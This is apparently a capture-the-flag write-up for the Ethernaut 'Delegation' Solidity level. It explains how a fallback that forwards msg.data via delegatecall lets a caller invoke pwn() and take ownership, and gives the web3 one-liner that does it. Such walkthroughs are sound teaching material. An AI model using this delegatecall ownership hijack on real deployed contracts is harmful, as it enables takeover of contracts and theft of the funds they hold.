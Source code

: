 # Delegation

The goal of this level is for you to claim ownership of the instance you are given.<br/>
Things that might help<br/>

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.<br/>
- Fallback methods<br/>
- Method ids<br/>

We interact with Delegation contract not delegate contract and in delegation contract has `address(delegate).delegatecall(msg.data);` that allow you to borrow function from delegate contract but state effect on Delegetion contract.<br/>

Trigger fallback function and send msg.data as pwn() function to clain ownership:

```javascript
await contract.sendTransaction({ data: web3.eth.abi.encodeFunctionSignature('pwn()') });
```

Verify that the owner change to be our player address:
```javascript
await contract.owner();
```
